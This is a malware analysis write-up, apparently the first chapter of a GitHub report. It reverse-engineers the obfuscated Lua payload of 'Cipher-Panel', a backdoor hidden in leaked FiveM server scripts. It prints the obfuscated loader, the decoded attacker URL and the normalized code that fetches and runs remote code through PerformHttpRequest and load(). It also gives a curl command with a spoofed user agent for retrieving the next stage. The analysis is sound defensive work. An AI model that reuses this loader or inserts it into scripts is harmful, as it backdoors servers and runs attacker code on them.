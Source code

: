 ## Chapter 1 (Payload)
This chapter covers the payload code used in the malicious code to hire dubbed Cipher-Panel.

### Introduction
The payload for this malicious software is provided to users who pay for access to said software that allows them to generate the payload code. Using this payload code they can then download FiveM scripts, modify them to include the payload code, and then upload them to popular FiveM script leaking websites and communities or even used by script developers and merchants to target specific servers.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```
It should be noted that the `random_char` array is unique to the user who created the payload via Cipher-Panel's website and thus is, __not__ something that is to be be used for the detection of this malicious software.

The code above is designed to look non-malicious by using field names that aren't normally associated with malicious code such as **random_char** and encoding characters with UTF-8 to prevent people from simply opening the script to check it's purpose.

The first stage to reversing this code is turning the `Enchanced_Tabs` array back into plain text by decoding the UTF-8 characters, followed by normalizing some of the function names and fields.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Normalized: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Output: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```diff
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
+ Enchanced_Tabs[10] = PerformHttpRequest;
+ Enchanced_Tabs[11] = assert;
Enchanced_Tabs[12] = server; (Junk Code)
+ Enchanced_Tabs[13] = load;
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

The `Enchanced_Tabs` array mainly contains junk functions and keywords to throw users off from the three highlighted functions that are used in the payload functions.

#### Final Mapped and Normalised Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local payload = assert(load(responseBody))
        if (responseBody == nil) then return end
        payload()
    end)
```

After the mapping and normalization of the code, we can see that the code continuously makes an HTTP request to the unique Cipher-Panel endpoint.

All endpoints provided by Cipher-Panel are all protected with [Cloudflare](https://www.cloudflare.com/) using their [page rules](https://www.cloudflare.com/en-gb/features-page-rules/) system, this prevents access via regular browsers and only allows access to requests using the `User-Agent` provided via FiveM's [PerformHttpRequest](https://docs.fivem.net/docs/scripting-reference/runtimes/lua/functions/PerformHttpRequest/) *(FXServer/PerformHttpRequest)*. We can bypass that limitation with a simple `curl`[^1] command, this outputs the code used in the next part of this malicious software and is covered in the next chapter.

[^1]: `curl https://cipher-panel.me/_i/i?to=l6Tr2 -A "FXServer/PerformHttpRequest"`

[Chapter 2 (Infection)](https://github.com/ericstolly/cipher/blob/main/chapters/chapter-2-infection.md)
